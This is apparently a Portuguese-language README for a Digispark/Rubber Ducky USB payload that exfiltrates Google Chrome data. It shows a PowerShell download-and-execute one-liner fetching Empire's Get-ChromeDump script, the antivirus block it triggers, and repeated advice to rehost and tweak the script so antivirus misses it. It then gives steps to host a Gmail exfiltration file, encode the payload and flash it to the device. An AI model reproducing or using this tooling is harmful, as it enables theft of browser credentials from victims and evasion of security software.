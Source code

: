# Esse projeto é detectado pelo antivirus do windows pois muitas pessoas usaram o link padrão do GetChromeDump.ps1 diretamente do repositorio do EmpireProject, então baixe o GetChromeDump up em outro github e faça modificações no código para não ser detectado
PS C:\WINDOWS\system32> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/collection/Get-ChromeDump.ps1'); Get-ChromeDump -OutFile 'C:\l\ChromeDump.txt'
IEX : No linha:1 caractere:1
+ Function Get-ChromeDump{
+ ~~~~~~~~~~~~~~~~~~~~~~~~
Este script contém conteúdo mal-intencionado e foi bloqueado pelo software antivírus.
No linha:1 caractere:1
+ IEX (New-Object Net.WebClient).DownloadString('https://raw.githubuser ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ParserError: (:) [Invoke-Expression], ParseException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent,Microsoft.PowerShell.Commands.InvokeExpressionCommand

Get-ChromeDump : O termo 'Get-ChromeDump' não é reconhecido como nome de cmdlet, função, arquivo de script ou programa
operável. Verifique a grafia do nome ou, se um caminho tiver sido incluído, veja se o caminho está correto e tente
novamente.
No linha:1 caractere:162
+ ... module_source/collection/Get-ChromeDump.ps1'); Get-ChromeDump -OutFil ...
+                                                    ~~~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (Get-ChromeDump:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException
    
# tente baixar o arquivo Get-ChromeDump.ps1 e upar em outro git, modifique algo no script (tipo os comentários) para não ser detectado pelo antivirus.


# Usando o digispark para exfiltrar dados do google chrome
this is a modified version from: https://github.com/cubidalsphere/Rubber-Ducky
you need to use https://github.com/mame82/duck2spark to encode digispark's payload

---

# vamos lá... 
para começar, vc precisa usar o duckencode e depois o duck2spark do mame82 (github mame82)

primeiro upa o arquivo referente à conexão com o gmail em algum free host... e configura ele tbm (né)

depois pega o payload .duck e usa o duckencoder (ta no git do mame82) nele:

**cat ~/payload.duck | python duckencoder.py -p -l br > inject.bin**

depois vc precisa usar o duck2spark (ta no git do mame82):

**./duck2spark.py -i inject.bin -l 1 -f 2000 -o inject.ino**

agora vc já tem o arquivo .ino é só subir pro digispark usando a IDE do arduino... (tem que baixar os drivers do digispark e tbm baixar a lib dele na ide do arduino)

se depois de tudo isso vc ainda não conseguir um payload funcional, esquece e vai estudar um pouco sobre arduino e HID antes de tentar isso...

[![VIDEO USANDO O DIGISPARK](https://static.makeuseof.com/wp-content/uploads/2015/12/youtube-player-670x335.jpg)](https://www.youtube.com/watch?v=py2dDVzWSw4)
